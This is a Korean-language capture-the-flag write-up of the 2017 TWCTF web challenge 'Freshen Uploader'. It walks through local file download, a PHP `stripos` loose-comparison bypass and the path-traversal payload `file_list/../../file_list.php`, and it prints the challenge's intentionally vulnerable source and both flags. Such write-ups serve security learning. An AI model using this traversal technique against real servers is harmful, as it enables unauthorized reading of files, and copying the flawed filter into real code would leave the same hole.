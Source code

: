 # 2017 TWCTF - [Web] Freshen Uploader
## Problem
```
In this year, we stopped using Windows so you can't use DOS tricks!
http://fup.chal.ctf.westerns.tokyo/
```
## Solution
처음 문제페이지를 들어가면 3개의 링크가 있는데, 파일을 다운로드 할 수가 있습니다. 저는 이 것을 보고 간단한 `LFI` 로 접근을 하여, `index.php` 를 다운로드 받았습니다.

```
<?php
/**
 *
 */
include('file_list.php');
?>
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="utf-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="viewport" content="width=device-width, initial-scale=1">
    <title>Uploader</title>

    <link href="https://maxcdn.bootstrapcdn.com/bootstrap/3.3.7/css/bootstrap.min.css" rel="stylesheet">
  </head>
  <body>
    <div class="container">
      <div class="page-header">
        <h1>Complex Uploader</h1>
        <p class="lead">Upload feature is disabled.</p>
      </div>
      <h3>Files</h3>
      <table class="table table-bordered">
        <thead>
          <tr>
            <th>#</th>
            <th>Filename</th>
            <th>Size</th>
            <th>Link</th>
          </tr>
        </thead>
        <tbody>
          <?php foreach($files as $file): ?>
<?php if($file[0]) continue; ?>
          <tr>
            <td><?= $file[1]; ?></td>
            <td><?= $file[2]; ?></td>
            <td><?= $file[3]; ?> bytes</td>
            <td><a href="download.php?f=<?= $file[4]; ?>">Download</a></td>
          </tr>
          <?php endforeach;?>
        </tbody>
      </table>
      </h3>
    </div>

    <script src="https://maxcdn.bootstrapcdn.com/bootstrap/3.3.7/js/bootstrap.min.js"></script>
  </body>
</html>
```

`index.php` 소스 위쪽에 `file_list.php` 를 인클루드하는 코드를 보고 `file_list.php` 을 받을려고 해보니 다운로드가 안됩니다.

`download.php` 에서 필터링이 걸려있는 것 같아서, `download.php` 를 다운받아서 확인해보니 첫번째 플래그가 나오는 것을 확인할 수 있습니다.

```
<?php
// TWCTF{then_can_y0u_read_file_list?}
$filename = $_GET['f'];
if(stripos($filename, 'file_list') != false) die();
header("Content-Type: application/octet-stream");
header("Content-Disposition: attachment; filename='$filename'");
readfile("uploads/$filename");
```

그리고 `then_can_y0u_read_file_list?` 라는 플래그 문장을 보고 마지막 과정 하나가 더 있겠다 싶었습니다.

결국 `file_list` 까지 확인을 해야 최종플래그에 도달할 수 있는 것 같습니다.

우선 코드를 살펴봅시다.

`if`문과 `stripos` 로 넘겨받는 인자에 `file_list` 가 존재하면 `die` 합니다.
여기서 연산자를 잘보면, `!=` 임을 알 수가 있는데 이 때문에 해당 조건이 취약해지게 됩니다.

`stripos` 가 문자열의 첫 시작 위치를 반환해주는 함수인데, 맨 처음에 `file_list` 가 들어가면 문자열의 첫 시작은 0이니 0을 반환하게됩니다. 그러면, 0 은 false 이니 해당 조건문을 우회할수가 있습니다.

그러면 이를 이용하여 페이로드를 짜봅시다.

`file_list/../../file_list.php`

해당 페이로드를 보내면, `file_list.php` 가 다운로드 됩니다.

```
<?php
$files = [
  [FALSE, 1, 'test.cpp', 192, '6a92b449761226434f5fce6c8e87295a'],
  [FALSE, 2, 'test.c', 325, '27259bca9edf408829bb749969449550'],
  [TRUE, 3, 'flag_ef02dee64eb575d84ba626a78ad4e0243aeefd19145bc6502efe7018c4085213', 1337, 'flag_ef02dee64eb575d84ba626a78ad4e0243aeefd19145bc6502efe7018c4085213'],
  [FALSE, 4, 'test.py', 94, '951470281beb8a490a941ac73bd10953'],
];
```

여기서 플래그 파일이 `flag_ef02dee64eb575d84ba626a78ad4e0243aeefd19145bc6502efe7018c4085213` 이니 해당 파일을 다운로드 해주어 확인을 해보면 2번째 플래그가 나옵니다.

`TWCTF{php_is_very_secure}`
